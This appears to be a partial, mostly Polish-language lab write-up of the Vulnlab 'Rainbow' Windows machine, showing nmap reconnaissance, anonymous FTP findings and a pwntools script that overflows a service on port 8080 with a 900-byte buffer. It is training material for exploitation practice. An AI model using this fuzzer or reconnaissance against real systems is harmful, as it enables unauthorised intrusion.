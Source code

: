 # Rainbow
Windows, Medium, create by **xct**

```
sudo nmap -sU -Pn -A -F -v -oA nmaUDP --max-rate 1500 10.10.89.13
nmap -Pn -v -p- --version-all -oA nmapFULL --max-rate 1500 -A 10.10.89.13 
```
```
21/tcp    open  ftp                Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 01-18-22  08:22AM                  258 dev.txt
| 01-18-22  08:30AM                54784 rainbow.exe
| 01-16-22  01:34PM                  479 restart.ps1
|_01-16-22  12:14PM       <DIR>          wwwroot
80/tcp    open  http               Microsoft IIS httpd 10.0
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ssl/ms-wbt-server?
8080/tcp  open  http-proxy
49666/tcp open  msrpc              Microsoft Windows RPC
1 service unrecognized despite returning data. If you know 
```

z 80 portu 0 info z content discovery
- dobra idę na to ftp bo aż krzyczy.

![{35FBD93B-0AC4-4A86-95C2-6B2F92A25DDD}](https://github.com/user-attachments/assets/7002c34d-ce71-45ba-9903-bd3406eaf243)

a write na wwwroot pewnie będzie i ez shell.

jeszcze szybkie czytanie

![{F916A1AE-093C-4EC2-82EF-0532E8B86E65}](https://github.com/user-attachments/assets/a611e4a6-5e1e-433c-a0ae-14b918fae2dd)

![{18583290-F20D-400D-BE7D-F2F1DDDC72C6}](https://github.com/user-attachments/assets/1f31aa72-9a0c-4272-9c12-740a5cd56d53)

oho it isn't wwwroot. So we need check the .exe

![{678539DC-5A7B-4C87-84DD-AAD3B5815521}](https://github.com/user-attachments/assets/bf5131b4-2186-42bd-bfdc-6efbf7140652)

i kurczę to nie jest .net.... może przeanalizuję co tam siedzi w tym ps1 dokładnie.

ech.. ja się męcze, a wystarczy wejść na [https://wiki.vulnlab.com/guidance/medium/rainbow](https://wiki.vulnlab.com/guidance/medium/rainbow), żeby się dowiedzieć, że marnuję czas ;)

![{71E16BFB-AC8C-4016-A141-299122759AEE}](https://github.com/user-attachments/assets/d01c37e3-271a-4141-a44f-03ff30e66b08)

```
#!/usr/bin/python
from pwn import *
from urllib import parse
from time import sleep
from sys import argv,exit
from os import system
  
HOST = b""
PORT = 8080
 
buffer = b"A"*900
content = buffer
payload =  b"POST / HTTP/1.1\r\n"
payload += b"Host: %s\r\n" % HOST
payload += b"Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0\r\n"
payload += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
payload += b"Content-Length: %d\r\n\r\n" % len(content)
payload += content

p = remote(HOST, PORT)
p.send(payload)
p.close()
```
- przypadek w sumie prawie 1:1 jak miałem na oscp swoim.
I went back to the source I used then as well as I use whenever I need to make a BoF [https://tryhackme.com/r/room/bufferoverflowprep](https://tryhackme.com/r/room/bufferoverflowprep)

Pobieramy sobie .exe na windowsa i lecimy

![{D2330998-E041-4B95-828E-E2DA47176D80}](https://github.com/user-attachments/assets/136685e0-50ac-4187-afbf-1cc2139ad744)

![{77A8B0CB-9939-4D37-A7A9-BA43BBABA20C}](https://github.com/user-attachments/assets/ec884585-ea2d-4100-af86-4258f2672d5f)

dobra nie pobieramy...
- ten skrypcik w ps1 w sumie szuka procesu o nazwie rainbow i jeżeli go nie ma to uruchamia naszego .exe.
- Jak proces się zawiesi albo zajmuje za dużo (ponad 200mb) to też resecik.

I tried win10 and win11 x64. Maybe it is x86.. fuck it. I will change machine
